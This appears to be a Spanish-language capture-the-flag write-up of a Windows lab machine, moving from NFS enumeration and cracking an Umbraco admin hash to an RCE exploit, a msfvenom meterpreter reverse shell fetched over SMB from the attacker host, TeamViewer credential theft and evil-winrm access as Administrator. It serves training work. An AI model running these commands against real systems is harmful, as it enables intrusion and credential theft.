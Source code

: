Hacemos el reconocimiento de nmap:
![[Pasted image 20231202125451.png]]
![[Pasted image 20231202125716.png]]
![[Pasted image 20231202125736.png]]
Identificamos un ftp como anonymous habilitado, pero no encontramos nada:

Y si accedemos al contenido del puerto 80, vemos lo siguiente:
![[Pasted image 20231202125554.png]]
Realizamos fuzzing web y encontramos los siguientes directorios; y encontramos algo que dice umbraco:
![[Pasted image 20231202125850.png]]
Donde tenemos el siguiente panel de login:
![[Pasted image 20231202125910.png]]
Probamos con el usuario admin y nos confirman que existe dicho usuario:
![[Pasted image 20231202125934.png]]
Por aquí no encontramos nada, por lo que continuamos enumerando el puerto 111 donde corre el protocolo de NFS, por lo que tenemos tanto las herramientas de nmap como showmount, donde nos encontramos con la montura de /site-backups
![[Pasted image 20231202130439.png]]
En este punto, podemos montar una carpeta en el directorio /mnt y así accedemos al directorio /site-backups:
```python
mount -t nfs 10.10.10.180:/site_backups /mnt/
```
![[Pasted image 20231202131013.png]]
E identificamos el directorio /umbraco, donde posiblemente podamos encontrar algunas credenciales, pero ello estará dentro del directorio /App_Data y analizando el fichero Umbraco.sdf:
![[Pasted image 20231202131317.png]]
Lo abrimos con el comando strings y vemos información de un usuario administrador:
![[Pasted image 20231202131336.png]]
Y nos fijamos en su hash:
![[Pasted image 20231202131408.png]]
Lo intentamos crackear en crackstation, donde vemos que la contraseña es baconandcheese:
![[Pasted image 20231202131455.png]]
```bash
Admin@htb.local:baconandcheese
```
Y ahora accedemos dentro del panel de login:
![[Pasted image 20231202131605.png]]
Si miramos en el panel de ayuda, vemos la versión:
![[Pasted image 20231202131945.png]]
Si buscamos por internet, vemos que podemos explotar una vulnerabilidad:
![[Pasted image 20231202132017.png]]
Y ahora vamos a clonar el repositorio, instalamos las dependencias y lo ejecutamos:
```python
pip install -r requirements.txt
```
Lo ejecutamos y vemos las instrucciones del exploit:
![[Pasted image 20231202132348.png]]
Lo ejecutamos proporcionando la información correcta:
```python
python3 exploit.py -u Admin@htb.local -p baconandcheese -w 'http://10.10.10.180' -i 10.10.16.24
```
Y obtenemos la conexión:
![[Pasted image 20231202132740.png]]
Pero esta conexión es muy inestable, por lo que nos mandamos otra reverse shell utilizando revshells:
![[Pasted image 20231202133021.png]]
![[Pasted image 20231202133028.png]]
Y recibimos la nueva conexión:
![[Pasted image 20231202133043.png]]
Nos ubicamos en \temp:
![[Pasted image 20231202133131.png]]
Lo siguiente será upgradear a una sesión de meterpreter para tener más poder sobre la máquina, por lo que creamos un payload con msfvenom:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.24 LPORT=4444 -f exe -o virus.exe
```
Lo compartimos:
```bash
impacket-smbserver recurso $(pwd) -smb2support
```
![[Pasted image 20231202133605.png]]
Lo recibimos en la máquina víctima:
```bash
copy \\10.10.16.24\recurso\virus.exe virus.exe
```
![[Pasted image 20231202133640.png]]
Nos ponemos en escucha con el multi/handler, estableciendo el payload de un meterpreter, y ya estamos dentro:
![[Pasted image 20231202133716.png]]
![[Pasted image 20231202133704.png]]
Si nos ubicamos en el directorio de archivos de programa, vemos un directorio llamado TeamViewer, que posiblemente dentro de aquí podamos encontrar credenciales:
![[Pasted image 20231202134647.png]]
![[Pasted image 20231202134713.png]]
Con metasploit tenemos un módulo de post explotación que nos permite analizar TeamViewer en busca de credenciales, por lo que vamos a utilizarlo:
![[Pasted image 20231202134813.png]]
![[Pasted image 20231202134837.png]]
Tenemos las siguientes credenciales:
```bash
Administrator:!R3m0te!
```
Probamos en acceder con evil-winrm y ya estamos dentro como el usuario Administrador:
```bash
evil-winrm -i 10.10.10.180 -u 'Administrator' -p '!R3m0te!'
```
![[Pasted image 20231202135011.png]]
